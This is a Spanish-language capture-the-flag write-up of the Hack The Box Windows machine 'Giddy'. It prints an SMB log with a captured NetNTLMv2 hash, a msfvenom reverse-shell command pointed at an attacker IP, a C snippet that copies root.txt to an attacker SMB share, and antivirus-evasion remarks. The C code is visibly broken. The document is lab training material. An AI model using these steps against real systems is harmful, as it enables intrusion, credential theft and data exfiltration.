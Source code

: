 ```yaml
---
title: Giddy
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [mmsqlinjection, wdbypass]     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Mon Oct 10 22:44:34 2022 as: nmap -sCV -p80,443,3389,5985 -oN targetd 10.10.10.104
Nmap scan report for 10.10.10.104
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2022-10-11T03:44:55+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GIDDY
|   NetBIOS_Domain_Name: GIDDY
|   NetBIOS_Computer_Name: GIDDY
|   DNS_Domain_Name: Giddy
|   DNS_Computer_Name: Giddy
|   Product_Version: 10.0.14393
|_  System_Time: 2022-10-11T03:44:52+00:00
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2022-10-10T03:41:52
|_Not valid after:  2023-04-11T03:41:52
|_ssl-date: 2022-10-11T03:44:55+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 10 22:44:56 2022 -- 1 IP address (1 host up) scanned in 22.26 seconds
```
En este punto en la página web por medio de fuzzeo donde encontramos un directorio /mvd donde podemos ejecutar un sql injection.

![imagen1](/assets/images/giddy.png)

```shell
sudo smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49708)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:fa204ae5db56ef04e7cacbd1d914af7c:010100000000000000eb2653ddddd8017abf8a0974c5915a00000000010010006a006e00770073004d00770050007900030010006a006e00770073004d0077005
0007900020010007a007300730068004d0066004c006200040010007a007300730068004d0066004c0062000700080000eb2653ddddd801060004000200000008003000300000000000000000000000003000003fcbeeef356fea1e675cea60b376580b
05a16df72af65fa12c61aa05f99628be0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000
```
La crackeamos y obtenemos la contraseña de Stacy y nos conectamos por winrm.

Dentro nos encontramos con un archivo unifyvideo, buscando alguna vulnerabilidad, encontramos que existe una vuln que nos puede escalar privilegios. Se trata de subir un archvio malicioso en la 
carpeta del programa y una vez detenido o ejecutado el servicio, se ejecutará.

```powershell
C:\ProgramData\unifi-video> icacls C:\ProgramData\unifi-video\
C:\ProgramData\unifi-video\ NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                            BUILTIN\Administrators:(I)(OI)(CI)(F)
                            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                            BUILTIN\Users:(I)(OI)(CI)(RX)
                            BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)
```
En la carpeta podemos crear un archivo taskkill.exe por medio de msfvenom.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o taskkill.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: taskkill.exe
```
Lo intentamos subir a la máquina víctima y ejecutamos

```powershell
C:\ProgramData\unifi-video> ./taskkill.exe
Program 'taskkill.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
```
Se detecta que como un archivo malicios por lo que procedemos a encriptar el archivo para que no nos lo detecte

Hacemos un archivo en c++ de prueba para después compilarlo con `mingw`

```c++
<stdlib.lib>

int(){
	system("type \\Users\\Administrator\\Desktop\\root.txt > \\\\10.10.14.14\\smbFolder\\root.txt")
}
```
Buscamos en /usr/bin por el binario para compilar 

```shell
x86_64-w64-mingw32-gcc preuba.c -o taskkill.exe
```
Y ahora tendremos que buscar cuál es el nombre del servicio que está corriendo en la máquina víctima, las maneras de hacerlas son:

```powershell
C:\ProgramData\unifi-video> cmd /c sc query
[SC] OpenSCManager FAILED 5:

Access is denied.

C:\ProgramData\unifi-video> Get-WmiObject win32_service
Access denied 
At line:1 char:1
+ Get-WmiObject win32_service

cd HKLM:\SYSTEM\CurrentControlSet\Services
...SNIP...
UniFiVideoService              Type            : 16
                               Start           : 2
                               ErrorControl    : 1
                               ImagePath       : C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
                               DisplayName     : Ubiquiti UniFi Video
                               DependOnService : {Tcpip, Afd}
                               ObjectName      : LocalSystem
                               Description     : Ubiquiti UniFi Video Service
...SNIP...
```
Encontramos el nombre, por lo que procedemos a parar el servicio

```powershell
C:\ProgramData\unifi-video> cmd /c sc stop UniFiVideoService

SERVICE_NAME: UniFiVideoService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0xbb8
```
Vemos que en nuestra máquina se encuentra la flag de root.

Otra manera de poder hacerlo es mediante `eboula` o `ghostevasion`
